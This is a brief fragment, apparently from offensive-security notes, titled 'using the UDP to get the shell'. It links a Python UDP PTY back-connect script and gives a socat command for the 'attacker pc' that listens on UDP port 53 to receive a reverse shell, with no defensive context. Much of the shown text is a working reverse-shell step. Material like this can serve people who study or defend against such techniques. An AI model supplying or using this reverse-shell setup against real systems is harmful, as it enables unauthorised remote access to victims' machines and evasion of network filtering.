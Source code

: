 ## USING THE UDP TO GET THE SHELL
 [https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py](https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py)

````on attacker pc --> socat file:`tty`,raw,echo=0 udp-listen:53````
